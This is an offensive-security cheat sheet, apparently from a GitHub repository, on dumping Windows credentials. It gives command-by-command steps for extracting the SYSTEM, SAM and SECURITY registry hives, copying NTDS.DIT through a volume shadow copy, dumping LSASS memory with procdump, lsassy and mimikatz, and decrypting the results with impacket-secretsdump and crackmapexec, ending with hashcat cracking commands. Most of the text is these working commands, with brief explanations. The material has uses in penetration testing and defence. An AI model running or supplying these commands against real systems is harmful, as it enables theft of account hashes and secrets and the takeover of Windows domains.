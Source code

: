 # Credentials Dumping
Requirements:
* Probably need administrator or SYSTEM or debug privileges

## SYSTEM - Keys
Required SYSTEM hive to decrypt other useful hives.

`reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM`

## NTDS.DIT - All domain account hashes & kerberos keys
The AD database is saved in a file on every DC in the domain. The AD database is stored in the NTDS.DIT file located in the NTDS folder of the system root. On DC you can retrieve NTDS.DIT file for domain users. hashes can be used for Pass The Hash attack (except cached hashes).

```
vssadmin create shadow /for=C:
copy <SHADOW_PATH>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<SHADOW_ID>
```
`impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --ntds`

mimikatz # `lsadump::dcsync \all`

## SAM - Local account hashes
Windows stores and manages the local user and group accounts in a database file called Security Account Manager (SAM). It  authenticates local user logons. On a domain controller, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
`reg SAVE HKLM\SAM C:\Windows\Temp\SAM`
`impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --sam`

mimikatz # `token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>`
mimikatz # `token::elevate lsadump::sam`

## SECURITY - Cached domain account hashes & LSA secrets
Each time a user logs on to a domain, Windows caches the credentials supplied and stores them in the security hive in the registry of the operation system. With cached credentials, the user can log on to a domain member without being connected to a domain controller within that domain. Mscash is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Is not saved on a DC.

The LSA secrets, which are secret pieces of data that are accessible only to SYSTEM account processes, are stored (in some circumstances) on the hard disk drive. Some of these secrets are credentials that must persist after reboot. Credentials stored as LSA secrets might include:
* Account password for the computer's Active Directory Domain Services (AD DS) account
* Account passwords for Windows services that are configured on the computer
* Account passwords for configured scheduled tasks
* Account passwords for IIS application pools and websites
* Passwords for Microsoft accounts

`reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY`
`impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --lsa`

mimikatz # `token::elevate lsadump::cache`

mimikatz # `token::elevate lsadump::lsa /inject` **? LOCAL ACCOUNTS?!**

## LSASS.exe process - active domain account hashes & tickets
The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalfs of users with active Windows sessions. LSASS can store credentials in multiple forms, including: 
* reversibly encrypted plaintext
* kerberos tickets (ticket-granting tickets (TGTs), service tickets)
* NT hash and LM hash

Tools for remote dumping creds needs port 139 or 445 to be open for SMB:
`lsassy -d <DOMAIN> -u <USER> -p <PASS> <IP>`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy`

Local dumping:
`procdump -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp`
mimikatz # `sekurlsa::minidump <DUMPFILE>`
mimikatz # `sekurlsa::logonPasswords`







`hashcat -m 1000 <HASH> <PASSLIST> --potfile-disable`
`hashcat -m 2100 <HASH> <PASSLIST> --potfile-disable`


`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`